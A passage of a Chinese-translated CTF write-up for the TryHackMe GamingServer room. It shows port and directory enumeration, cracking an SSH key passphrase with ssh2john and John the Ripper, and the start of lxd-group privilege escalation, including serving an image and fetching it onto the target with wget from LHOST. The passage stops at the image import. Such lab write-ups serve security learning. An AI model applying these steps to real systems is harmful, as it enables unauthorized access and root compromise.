# TryHackMe- GamingServer CTF 报道(详细)

> 原文：<https://infosecwriteups.com/tryhackme-gamingserver-ctf-writeup-detailed-72915ab3c238?source=collection_archive---------1----------------------->



CTF 报道#18

欢迎各位！！我们将在 [TryHackMe](https://medium.com/u/dc49a0a3cb16?source=post_page-----72915ab3c238--------------------------------) 做游戏服务器 CTF。

 [## 游戏服务器

### TryHackMe 是一个学习和教授网络安全的在线平台，全部通过您的浏览器完成。

tryhackme.com](https://tryhackme.com/room/gamingserver) 

CTF 由以下作者创作:

 [## 西装男

### TryHackMe 是一个学习和教授网络安全的在线平台，全部通过您的浏览器完成。

tryhackme.com](https://tryhackme.com/p/SuitGuy) 

为您的 CTF 计算机创建一个目录，并为 nmap 创建一个目录来存储您的 Nmap 扫描输出。



让我们开始吧！！享受流动吧！！

## 任务 1- Boot2root:



任务列表

## Nmap 扫描:

> *nmap-sC-sV-p--oN nmap/gaming server _ all ports<TARGET _ IP>*
> 
> -sC:默认脚本
> -sV:版本检测
> -oN:输出将存储在您之前创建的“nmap”目录中
> -p-:扫描所有端口



我们打开了两个端口:
22/ssh-OpenSSH 7.6p 1
80/http-Apache httpd 2 . 4 . 29
检测到 OS-Ubuntu Linux

## **Gobuster :**

> *gobuster dir-u http://<TARGET _ IP>-w<PATH _ TO _ word list>-o<OUTPUT _ FILE _ NAME>-x<扩展名>*
> 
> -u:URL
> -w:word list
> -q:quiet，静默扫描。将隐藏横幅。
> -o:输出将存储在目录
> -x:搜索扩展名，如 html、txt、php、phtml 等。



gobuster 扫描输出发现了一些目录和 robots.txt。我们将逐一检查。

> 导航到 http://<target_ip></target_ip>



检查页面的源代码是否有隐藏的注释总是好的。查看 URL 页的源代码。



厉害！！我们有一个潜在的用户名，我们可以使用它作为参考。让我们继续枚举过程。

> 导航到 http:// <target_ip>/robots.txt</target_ip>



我们已经知道了/uploads 目录。

> 导航到 http://<target_ip>/上传</target_ip>



上传目录中有 3 个文件。我们会逐一检查，如果重要的话会保存下来。

> 字典列表

事实上，这是一个重要的单词表，因此我们将把它保存到我们的主机上，因为如果需要的话，我们可能需要它来进行暴力破解。我们省省吧。



> manifesto.txt



这份文件是 1986 年 1 月 8 日由一名计算机安全黑客写的一篇短文，他以导师为名。该宣言对全世界的黑客，尤其是该领域的新手来说，是一个指导方针。我会推荐大家通读一下，只是为了知识。知识就是力量😃。

> meme.jpg



只是一个迷因。没什么重要的。

> 导航到 http:// <target_ip>/secret</target_ip>



太棒了！！我们有一个加密的 RSA 密钥，我们需要解密它。它将帮助我们作为用户获得外壳。

让我们保存这个键[Ctrl+S]或者简单地复制并粘贴到一个文本编辑器中。



我们必须解密 RSA 密钥，为此，我们可以使用一个非常棒的脚本，将 ssh 密钥转换为开膛手工具 john 可以理解的格式，然后使用单词列表暴力破解密钥，以找到允许我们登录 ssh 的正确短语或密码。

 [## openwall/约翰

### 此时您不能执行该操作。您已使用另一个标签页或窗口登录。您已在另一个选项卡中注销，或者…

github.com](https://github.com/openwall/john/blob/bleeding-jumbo/run/ssh2john.py) 

在我们将脚本保存到主机上之后，使用“chmod +x ssh2john.py”命令使其可执行是很重要的。

我们可以执行脚本，使用 id_rsa 文件作为输入并保存输出。

> *。/ssh 2 John . py secret key>for John . txt*



我们可以看到下面的输出文件。



我们将启动开膛手约翰工具，并使用输出文件对我们从上传目录中获得的单词列表进行暴力破解。开膛手约翰将完美地完成这一任务。



太棒了。！在一瞬间，我们获得了 ssh 密钥的密码。我们可以使用 secretkey 文件进行 ssh，以从源代码中获得的“john”用户身份登录。当提示输入密码短语时，我们可以使用通过开膛手约翰破解的密码短语并获得外壳。

在我们 ssh 之前，我们需要“chmod 600 secretkey”



太棒了。！我们进去了。
我们已经成功地在盒子上站稳了脚跟，现在让我们抓住用户的旗帜。



提交吧。

> #1.什么是用户标志？
> 答:xxxxxxxxxxxxxxxxxxxxxxxxxx

现在怎么办？是的，你认为它是正确的。我们需要提升权限以成为根用户并获取根标志。

让我们开始寻找任何攻击媒介。我们将进行一些手动枚举，如果我们找不到任何攻击向量，那么我们将运行 linpeas，这是一个非常棒的自动枚举脚本，可以显示 99%的潜在攻击向量。



使用“id”命令显示用户“john”所在的用户组。
看到服务 lxd 归 root 所有，任何人都可以使用，还是挺有意思的。

LXD 是下一代系统容器经理。它提供了类似于虚拟机的用户体验，但是使用了 Linux 容器。它是基于映像的，带有可用于大量 Linux 发行版的预制映像，并且是围绕一个非常强大但非常简单的 REST API 构建的。

我们很有可能会尝试使用 lxd 服务来提升我们的权限。让我们从你我最好的朋友谷歌开始吧。



让我们在我们的主机上克隆它。

> git 克隆



克隆的。在安装的目录中导航。



> 。/build-阿尔卑斯山



总共会有 19 个软件包需要安装，完成后我们可以看到一个. tar.gz 文件。



我们需要在目标机器上传输这个. tar.gz 文件，这样我们就可以使用 python 启动一个简单的 HTTPServer。您应该始终记住位于您打算使用 HTTP 服务器传输的目录中，即 lxd-alpine-builder 是我们在启动 HTTP 服务器之前必须位于的目录。

> python -m SimpleHTTPServer



在目标机器上，只需“wget”这个. tar.gz 文件，它就会像魔法一样工作。

> wget "http://LHOST/ <alpine_image.tar.gz>"</alpine_image.tar.gz>



我们将按照 lxd-alpine-builder 的 github 页面中提供的说明发出命令。

> lxc 图像导入。/<alpine_image.tar.gz>——别名<image_name></image_name></alpine_image.tar.gz>

